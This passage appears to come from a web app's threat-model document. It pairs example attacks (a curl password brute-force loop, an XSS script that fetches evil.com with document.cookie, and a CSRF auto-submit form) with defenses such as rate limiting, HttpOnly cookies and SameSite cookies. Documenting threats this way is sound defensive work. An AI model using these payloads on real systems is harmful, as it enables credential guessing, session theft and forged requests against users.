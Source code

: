 ```bash
# Automated brute force (should be blocked by rate limiting)
while read password; do
  curl -X POST http://localhost:3000/api/auth/sign-in \
    -H "Content-Type: application/json" \
    -d "{
      \"email\": \"victim@example.com\",
      \"password\": \"$password\"
    }"
done < passwords.txt
```

**Defense**:
- Rate limiting (10 attempts / 15 min)
- CAPTCHA after N failed attempts (future)
- Account lockout (future)
- Email notification on suspicious activity

### 2. Session Hijacking

**Attack**: Steal session cookie via XSS

```javascript
// Injected script (should be prevented)
<script>
  fetch('http://evil.com/steal?cookie=' + document.cookie);
</script>
```

**Defense**:
- HttpOnly cookies (JavaScript can't access)
- Content Security Policy (blocks inline scripts)
- XSS prevention (input sanitization)

### 3. CSRF Attack

**Attack**: Malicious site tricks user into making request

```html
<!-- evil.com page -->
<form action="https://vrss.app/api/posts" method="POST">
  <input type="hidden" name="content" value="Spam post" />
</form>
<script>document.forms[0].submit();</script>
```

**Defense**:
- SameSite cookies (lax/strict)
- CORS policy
- Origin header validation
- CSRF tokens (additional layer)

### 4. Privilege Escalation

**Attack**: Regular user tries to access admin functions
